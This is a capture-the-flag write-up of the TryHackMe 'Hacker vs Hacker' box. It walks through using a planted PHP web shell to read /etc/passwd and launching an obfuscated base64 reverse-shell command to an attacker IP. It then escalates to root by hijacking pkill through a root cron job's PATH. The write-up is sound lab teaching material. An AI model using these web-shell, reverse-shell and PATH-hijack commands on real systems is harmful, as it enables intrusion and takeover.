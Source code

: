 ```yaml
---
title: Tryhackme - hacker vs hacker
date: 2022-08-20 22:19:00 +0100
categories: [TryHackMe]
tags: [TryHackMe, File Upload]
render_with_liquid: false
---
```


# recon

I added the machine’s IP to my `/etc/hosts` as `nope.thm` then ran an `nmap` scan to find `ssh` and `http` ports open

```bash
$ sudo nmap  nope.thm  -v
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

visiting the web server shows the website has a file upload functionality

![file_upload](https://user-images.githubusercontent.com/71389295/185770220-befd6c9f-27c4-4783-a1bc-42cc8ef3fd85.png)![root](https://user-images.githubusercontent.com/71389295/185770231-52ae023a-8685-4276-be61-9ae541b80af2.png)


it was giving the following result whenever I tried to upload a file

![hacked](https://user-images.githubusercontent.com/71389295/185770223-8ed83266-43a5-4f65-b157-bbefd767817f.png)

examining the upload requests shows some commented php source code in the server response

![server_response](https://user-images.githubusercontent.com/71389295/185770241-f400586c-6d2d-4dd7-b910-81ab77a8006e.png)

```php
-->Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}

-->
```

this is a basic vulnerable file upload code in PHP, where the programmer only checks for the presence of an allowed extension (in this case `.pdf`), if it’s found then the file is uploaded to the server with a random name under `cvs/` directory

I took a loot at `cvs/` but the listing was disabled

![listing_disabled](https://user-images.githubusercontent.com/71389295/185770224-7f21642a-c85d-4baf-b8b6-ab2a3ff75794.png)

at first I thought this is actual code for `upload.php` so I tried uploading some shell with the name `shellcode.pdf.php`, but after getting the same response from the server when trying to upload different files, I figured that the attacker uploaded his shell on the server and removed the upload functionality, the idea of this box is to think like a hacker who already made his was inside, so I checked for the presence of `nope.thm/cvs/shell.pdf.php` and …
 
![boom](https://user-images.githubusercontent.com/71389295/185770218-0fcd7549-9e80-40ca-a6d1-b6fb07b6c877.png)

then I tried to give it an argument via `cmd` parameter and it worked as well!

`http://nope.thm/cvs/shell.pdf.php?cmd=ls`

![cmd](https://user-images.githubusercontent.com/71389295/185770219-ee2fc1c4-2483-4e07-b284-5786d403e536.png)

next thing I did was getting the list of users on the system `http://nope.thm/cvs/shell.pdf.php?cmd=cat+/etc/passwd`, getting the user flag from `/home/lachlan/user.txt` (`http://nope.thm/cvs/shell.pdf.php?cmd=cat+/home/lachlan/user.txt`) then getting a reverse shell with `http://nope.thm/cvs/shell.pdf.php?cmd=echo+L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuOC4xNDQuMTQ5LzEwMDAwIDA8JjEgMj4mMQo=|base64+-d|bash`)

![reverse_connection](https://user-images.githubusercontent.com/71389295/185770226-f3cf592a-8542-4138-807f-cace491d3418.png)

there was an annoying bit about this box, which is that you couldn’t spawn a pty duo to a crontab killing all `pts`s so the moment you hit `ctrl-c` by mistake you loose your shell

```php
$ python3 -c'import pty;pty.spawn("/bin/bash")'
www-data@b2r:/var/www/html/cvs$ nope
$ :cri:
/bin/bash: line 3: :cri:: command not found
$ ps aux | grep pkill
root        1715  0.0  0.1   2608   596 ?        Ss   10:35   0:00 /bin/sh -c /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
root        1717  0.0  0.1   2608   596 ?        Ss   10:35   0:00 /bin/sh -c /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
root        1720  0.0  0.1   2608   596 ?        Ss   10:35   0:00 /bin/sh -c /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

# priv esc

I found a `.bash_history` file under `/home/lachlan/` with `lachlan`'s plaintext password

```bash
$ ls /home
lachlan
$ ls /home/lachlan -a
.
..
.bash_history
.bash_logout
.bashrc
.cache
.profile
bin
user.txt
$ cat /home/lachlan/.bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "[REDACTED]" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

next we login to the machine via ssh, note that the `-T` is important not to create a `pts`m cause otherwise the `pkill` loop would kill our connection

```bash
$ ssh -T lachlan@nope.thm
lachlan@nope.thm's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 18 Aug 2022 11:06:20 AM UTC

  System load:  0.0               Processes:             126
  Usage of /:   25.0% of 9.78GB   Users logged in:       0
  Memory usage: 51%               IPv4 address for eth0: 10.10.37.216
  Swap usage:   0%

0 updates can be applied immediately.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

id
uid=1001(lachlan) gid=1001(lachlan) groups=1001(lachlan)
```

now to check the persistence method that the hacker left on the machine

```bash
cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

two things to note here

- `/home/lachlan/bin` is the first entry on the `PATH`
- `pkill` is invoked without an absolute file path
    
    so dropping a malicious `pkill` script under `/home/lachlan/bin` should get us `root` privileges
    
![root](https://user-images.githubusercontent.com/71389295/185770284-bdad7916-eb5d-449f-96eb-269a27db8cea.png)
